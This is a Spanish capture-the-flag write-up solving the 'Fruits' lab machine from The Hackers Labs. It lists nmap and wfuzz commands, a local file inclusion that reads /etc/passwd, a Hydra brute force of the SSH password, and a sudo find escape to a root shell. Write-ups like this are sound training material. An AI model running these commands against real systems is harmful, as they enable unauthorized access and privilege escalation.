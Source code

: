 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - LFI
  - Hydra
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#LFI|LFI]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Fruits

>En esta publicación, comparto cómo resolví la máquina **Fruits** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/38).

---
## Enumeración
### Ping

`ping -c 1 192.168.1.34`

![[Pasted image 20250802180940.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.34 -oG allPorts`

![[Pasted image 20250802181042.png]]

`nmap -p22,80 -sCV 192.168.1.34 -oN targeted`

![[Pasted image 20250802181107.png]]
### HTTP

`http://192.168.1.34/`

![[Pasted image 20250802181144.png]]
#### Fuzzing Web

`dirb http://192.168.1.34`

![[Pasted image 20250802181221.png]]

`wfuzz -c --hl=9 -w /usr/share/wordlists/rockyou.txt -u http://192.168.1.34/FUZZ.php`

![[Pasted image 20250802182422.png]]

Se descubre el directorio `fruits`.

---
## Explotación
### LFI

`wfuzz -c --hl=1 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.1.34/fruits.php?FUZZ=/etc/passwd`

![[Pasted image 20250802182730.png]]

`http://192.168.1.34/fruits.php?file=/etc/passwd`

![[Pasted image 20250802182751.png]]

Al visualizar el archivo `/etc/passwd`, se identifica el usuario `bananaman`.
### Hydra

Se realiza un ataque de fuerza bruta contra el servicio **SSH** (puerto 22), utilizando el usuario `bananaman` identificado anteriormente.

`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.34 -t 64`

![[Pasted image 20250802183145.png]]
### SSH

Se accede al sistema mediante el servicio **SSH**.

`ssh bananaman@192.168.1.34`

![[Pasted image 20250802183317.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250802183526.png]]

Se encuentra el binario: `/usr/bin/find`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo).

![[Pasted image 20250802183638.png]]

`sudo find . -exec /bin/sh \; -quit`

![[Pasted image 20250802183708.png]]

---